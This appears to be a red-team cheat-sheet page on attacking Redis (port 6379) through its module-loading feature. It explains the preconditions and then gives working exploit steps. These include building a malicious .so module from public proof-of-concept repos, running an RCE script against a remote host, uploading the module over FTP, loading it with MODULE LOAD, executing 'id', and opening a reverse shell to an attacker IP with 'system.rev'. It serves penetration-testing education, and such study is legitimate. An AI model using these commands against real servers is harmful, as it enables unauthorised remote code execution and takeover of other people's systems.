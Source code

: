```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 6379 - Redis

Redis is an open-source, in-memory key-value data store used for high-performance caching, message brokering, and real-time analytics. It supports a variety of data structures like strings, hashes, lists, sets, and sorted sets, and operates entirely in memory for speed, with optional persistence to disk. By default, Redis listens on TCP port `6379` and **has no authentication or encryption unless explicitly configured**, which often makes it a target during red team operations. The default configuration file is located at `/etc/redis/redis.conf`.

## Unauthenticated Root RCE

### Vulnerability Overview

In Redis `4.x` and `5.x` instances the ability to load shared object (`.so`) modules at runtime can leveraged to gain RCE. Exploitation requires two conditions to be met:

1. **Privileged Access to Redis** → The attacker must be able to issue privileged Redis commands such as `MODULE LOAD`. This is possible if the Redis instance is exposed to the internet without authentication or the attacker has acquired valid credentials to an authenticated instance. In addition, Redis must not restrict module loading; unless explicitly disabled, this capability is broadly accessible in insecure deployments.
2. **Writable Location on Target Filesystem** → The attacker must be able to place a malicious `.so` file on the target machine. Two main techniques can be used:
   1. Abuse Redis’s persistence settings: using `CONFIG SET dir` and `CONFIG SET dbfilename`, combined with `SAVE`, an attacker can write arbitrary files to locations such as `/tmp/`.
   2. Upload externally: if another service (e.g., FTP) exposes a writable path, the attacker can upload the `.so` file and instruct Redis to load it by its absolute path.

Once the malicious module is in place, Redis will load it and execute the attacker's code within the server's process space, effectively achieving RCE.

### Exploitation

For either case, a `.so` file must be created. This can be done via the original [PoC](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) or its modified [more modern version](https://github.com/CSpanias/redis-module-rce):

{% code overflow="wrap" %}
```bash
~$ git clone https://github.com/CSpanias/redis-module-rce && cd redis-module-rce && make
<SNIP>
gcc -Wall -fPIC -O2 -std=gnu99 -Imodule -shared -o module.so module/module.c

~/redis-module-rce$ ls -l module.so
-rwxr-xr-x 1 x7331 x7331 38704 Aug  1 14:29 module.so

~/redis-module-rce$ file module.so
module.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=c35119dc82e22bb135fb85215b9c0f40c98edde4, not stripped
```
{% endcode %}

{% tabs %}
{% tab title="Redis Persistence Settings" %}
This [PoC](https://github.com/CSpanias/redis-module-rce) can be used to leverage the Redis settings:

```bash
./redis-rce.py --rhost redis-instance --lhost 192.168.45.170
```
{% endtab %}

{% tab title="External Upload" %}
If `write` access to the target host is already obtained, i.e., via FTP, the `.so` file can be uploaded and then loaded into Redis:

```bash
# Upload the .so file to the target host via FTP
$ ftp ftp@redis-target
ftp> cd pub
ftp> put module.so
ftp>exit
​
# Connect to the Redis instance
$ redis-cli -h redis-target
redis-target:6379> MODULE LOAD /var/ftp/pub/module.so # Load the module
OK

redis-target:6379> MODULE LIST # Confirm that the module is loaded
1) 1) "name"
   2) "system" # The function of interest
   3) "ver"
   4) (integer) 1

redis-target:6379> system.exec "id" # System command execution

redis-target:6379> system.rev 192.168.45.170 6379 # Reverse shell
```
{% endtab %}
{% endtabs %}



